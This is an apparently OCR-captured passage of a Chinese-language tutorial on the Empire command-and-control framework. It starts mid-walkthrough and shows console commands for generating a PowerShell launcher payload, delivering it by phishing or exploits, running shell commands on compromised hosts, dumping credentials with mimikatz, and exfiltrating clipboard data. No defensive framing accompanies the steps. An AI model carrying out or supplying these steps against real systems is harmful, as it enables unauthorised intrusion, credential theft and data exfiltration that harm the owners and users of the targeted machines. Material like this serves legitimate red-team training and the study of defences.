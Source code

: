 这将设置一个 HTTP 监听器，允许代理（受感染的系统）与 Empire 服务器进行通信。

## 生成和交付有效载荷

Empire 生成的有效载荷充当受感染系统上的代理。这些代理与 Empire 服务器进行通信。为 Windows 目标生成一个 PowerShell 有效载荷：

```
 # Within the Empire console
usestager windows/launcher_ps
set Listener http_listener
generate
```

这将生成一个 PowerShell 单行有效载荷。你可以通过多种方式将此有效载荷传送到目标系统，例如通过钓鱼或漏洞利用。

## 在受感染的系统上执行命令

一旦有效载荷在目标系统上执行，它就会与 Empire 服务器建立连接。你可以与代理进行交互并执行命令：

```
 # Within the Empire console
interact <agent_ID>
# Execute a command on the agent
shell whoami
```

这展示了在受感染系统上执行一个简单命令（在此案例中，获取当前用户）。

## 用于高级任务的后期利用模块

Empire 包括了大量后期利用模块，用于执行高级操作。我们来使用**mimikatz**模块从被攻陷的系统中提取凭证：

```
 # Within the Empire console
interact <agent_ID>
# Load the mimikatz module
usemodule credentials/mimikatz
# Run mimikatz to extract credentials
execute
```

这个示例展示了如何使用一个专用模块在被攻陷系统上进行凭证提取。

## 数据外泄

Empire 提供模块来从被攻陷系统中提取数据。**powershell/clipboard/paste**模块可以用来提取存储在剪贴板中的数据：

```
 # Within the Empire console
interact <agent_ID>
# Load the clipboard exfiltration module
usemodule powershell/clipboard/paste
# Run the exfiltration module
execute
```
